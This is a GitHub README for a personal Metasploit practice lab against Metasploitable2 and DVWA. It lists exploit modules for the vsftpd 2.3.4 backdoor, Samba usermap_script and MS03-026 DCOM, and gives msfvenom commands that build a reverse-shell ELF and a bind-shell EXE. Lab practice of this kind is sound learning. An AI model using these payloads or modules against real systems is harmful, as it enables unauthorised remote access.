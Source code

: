 # metasploit-practice-lab
Hands-on Metasploit practice using vulnerable VMs like Metasploitable2 to learn exploitation and payload creation.


## 📝 README.md (Professional and recruiter-friendly)

```markdown
# 💣 Metasploit Practice Lab – Exploitation & Payloads

This repository documents my practice using **Metasploit Framework** for penetration testing in safe, isolated environments. All testing was conducted on **legal vulnerable machines** like Metasploitable2 and DVWA.

---

## 🛠️ Tools & Lab Setup

- **Metasploit Framework (msfconsole)**
- **Kali Linux**
- **Metasploitable2** VM (vulnerable target)
- **VirtualBox** or **VMware Workstation**

---

## 🗂️ Repository Structure

```

metasploit-practice-lab/
├── exploits/
│   ├── vsftpd\_234\_backdoor.md
│   ├── samba\_usermap\_script.md
├── payloads/
│   ├── reverse\_shell\_notes.md
│   └── msfvenom\_usage.md
├── screenshots/
│   ├── reverse\_shell\_success.png
│   └── msfconsole\_exploit.png
├── notes/
│   └── metasploit\_basics.md
├── README.md

````

---

## 🔥 Exploits Practiced

### 1️⃣ vsftpd 2.3.4 Backdoor
- Target: Port 21 (FTP)
- Exploit module: `exploit/unix/ftp/vsftpd_234_backdoor`
- Result: Meterpreter shell access

### 2️⃣ Samba Usermap Script (CVE-2007-2447)
- Target: Port 445 (SMB)
- Module: `exploit/multi/samba/usermap_script`
- Result: Gained root shell

### 3️⃣ DCOM Exploit (Windows XP)
- Tested remote Windows exploitation using `exploit/windows/dcerpc/ms03_026_dcom`

---

## 🧪 Payloads Created

### Reverse Shell
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f elf > shell.elf
````

### Bind Shell

```bash
msfvenom -p windows/shell_bind_tcp LPORT=4444 -f exe > shell.exe
```

---

## 📸 Sample Screenshots

| Exploitation                                   | Reverse Shell                                   |
| ---------------------------------------------- | ----------------------------------------------- |
| ![Exploit](screenshots/msfconsole_exploit.png) | ![Shell](screenshots/reverse_shell_success.png) |

---

## 📚 What I Learned

* How to scan, identify, and exploit known vulnerabilities
* Using `msfvenom` to generate custom payloads
* Managing sessions with Meterpreter
* The importance of patching and vulnerability management

---

## ⚠️ Disclaimer

> This project is for **educational and ethical purposes only**. All activities were performed in a controlled lab environment using legal, vulnerable virtual machines.

---

## 🧠 Next Steps

* Add privilege escalation modules
* Practice post-exploitation techniques
* Combine with Nmap for automated exploitation chains

```

---
